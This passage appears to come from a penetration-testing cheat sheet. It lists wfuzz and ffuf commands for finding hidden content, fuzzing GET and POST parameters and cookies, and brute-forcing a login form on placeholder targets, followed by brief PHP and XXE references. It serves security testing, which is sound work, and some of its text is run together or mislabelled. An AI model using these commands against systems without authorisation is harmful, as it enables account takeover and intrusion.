  &rarr;Fuzzing/SQLi/Generic-SQLi.txt
- A range of integer from 0 to 1000
- ...

The purpose of fuzzing relies on the assumption that there are bugs within every program, which are waiting to be discovered. Therefore, a systematic approach should find them sooner or later.

###### Wfuzz

Wfuzz can be used to look for hidden content, such as files and directories, within a web server, allowing to find further attack vectors.

- Passing cookies: -b cookie=value1 -b cookie2=value2
- Adding headers: -H "myheader: headervalue" -H "myheader2: headervalue2"
- Filter options:

Advanced tricks

```bash
wfuzz -z range --zD 0-1 -u http://target/script.php?id=FUZZ
wfuzz -p 127.0.0.1:<BURP_PORT>:HTTP # Add that, if you want to see the requests through a proxy like Burp
```

###### Fuff

[Fuff](https://github.com/ffuf/ffuf) is a fast web fuzzer written in Go.

- Filter options:
  - **-fc**: Filter HTTP status codes from response. Comma separated list of codes and ranges
  - **-fl**: Filter by amount of lines in response. Comma separated list of line counts and ranges
  - **-fr**: Filter regexp
  - **-fs**: Filter HTTP response size. Comma separated list of sizes and rangesfw:Filter by amount of words in response. Comma separated list of word counts and ranges

###### GET parameter fuzzing

```bash
ffuf -w /path/to/paramnames.txt -u https://target/script.php?FUZZ=test_value
```

###### POST data fuzzing

```bash
ffuf -w /path/to/postdata.txt -X POST -d "username=admin\&password=FUZZ" -u https://target/login.php
wfuzz -z file,wordlist/others/common_pass.txt -d "username=FUZZ&pass=FUZZ" https://target/login.php
```

Reference: [WSTG-IDNT-04 - Testing for Account Enumeration and Guessable User Account](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/03-Identity_Management_Testing/04-Testing_for_Account_Enumeration_and_Guessable_User_Account.html)

###### Cookie fuzzing

```bash
wfuzz -z z,path/to/wordlist.txt -b cookie=FUZZ http://target/
```

## Others

### PHP

- **[file_get_contents()](https://www.php.net/manual/en/function.file-get-contents.php)**: Reads entire file into a string
- **[scandir()](https://www.php.net/manual/en/function.scandir.php)**: List files and directories inside the images directory.

References:

- Magic Bytes: <https://blog.netspi.com/magic-bytes-identifying-common-file-formats-at-a-glance/>
- XML Explanations: @onehackman  https://medium.com/@onehackman/exploiting-xml-external-entity-xxe-injections-b0e3eac388f9
- For the "wget" part thanks to @cry__pto <https://rootkitpen.blogspot.com/2020/12/scraping-website-by-using-wget-part-1.html>
